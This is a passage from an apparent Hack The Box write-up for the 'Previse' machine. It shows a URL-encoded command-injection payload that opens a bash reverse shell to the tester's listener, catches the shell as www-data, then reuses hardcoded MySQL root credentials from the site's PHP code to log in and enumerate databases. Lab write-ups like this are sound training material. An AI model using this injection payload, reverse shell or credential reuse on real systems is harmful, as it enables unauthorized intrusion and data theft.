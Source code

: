 ```

delim=comma%3b+bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.9/9001+0>%261'
```
as we execute this request we get a shell as `www-data`:
```bash
root@kali:~/Documents/HTB/Boxes/Previse/site# nc -lvnp 9001
listening on [any] 9001 ...
        connect to [10.10.14.9] from (UNKNOWN) [10.10.11.104] 39672
bash: cannot set terminal process group (1298): Inappropriate ioctl for device
bash: no job control in this shell
www-data@previse:/var/www/html$ 
```

## User
Coming back to the code, we can see that MySQL credentials are disclosed within the code.  
```php
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```
Once we have shell access to this box, we can try to login to mysql using the above credentials.  
```shell
www-data@previse:/var/www/html$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 19
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>    
```
Once we are logged into the database we can poke around for hashes:  
```shell
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| previse            |
| sys                |
+--------------------+
5 rows in set (0.00 sec)

mysql> use previse;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
```